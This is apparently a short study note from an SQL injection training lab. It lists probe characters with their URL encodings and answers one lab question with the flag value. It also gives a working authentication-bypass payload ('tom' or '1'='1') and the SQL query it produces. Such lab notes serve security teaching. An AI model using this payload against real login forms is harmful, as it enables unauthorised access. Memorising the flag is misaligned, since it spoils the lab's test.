

# Subverting Query Logic
## SQLi Discovery

<table class="bg-neutral-800 text-primary w-full"><thead class="text-left rounded-t-lg"><tr class="border-t-neutral-600 first:border-t-0 border-t"><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4">Payload</th><th class="bg-neutral-700 first:rounded-tl-lg last:rounded-tr-lg p-4">URL Encoded</th></tr></thead><tbody class="font-mono text-sm"><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">'</code></td><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">%27</code></td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">"</code></td><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">%22</code></td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">#</code></td><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">%23</code></td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">;</code></td><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">%3B</code></td></tr><tr class="border-t-neutral-600 first:border-t-0 border-t"><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">)</code></td><td class="p-4"><code class="bg-neutral-700 mb-6 text-blue-250 py-1 px-1.5">%29</code></td></tr></tbody></table>

## OR Injection

## Questions
1. Try to log in as the user 'tom'. What is the flag value shown after you successfully log in? **Answer: 202a1d1a8b195d5e9a57e434cc16000c**
   - Working payload is: `username=tom%27+or+%271%27%3D%271&password=123` → Resulting query: `SELECT * FROM logins WHERE username='tom' or '1'='1' and password = '123';`